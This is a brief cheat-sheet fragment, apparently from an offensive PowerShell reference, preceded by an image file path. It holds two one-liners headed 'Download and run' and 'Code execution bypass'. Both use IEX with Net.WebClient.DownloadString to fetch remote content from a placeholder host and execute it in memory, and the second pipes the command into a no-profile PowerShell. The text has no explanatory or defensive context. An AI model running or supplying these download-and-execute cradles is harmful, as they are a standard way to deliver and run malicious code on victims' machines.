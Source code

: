# Download and run

IEX(New-Object Net.WebClient).DownloadString('http://example.com/example.html')

# Code execution bypass

echo IEX(New-Object Net.WebClient).DownloadString('http://example.com/example.html') | powershell -noprofile -
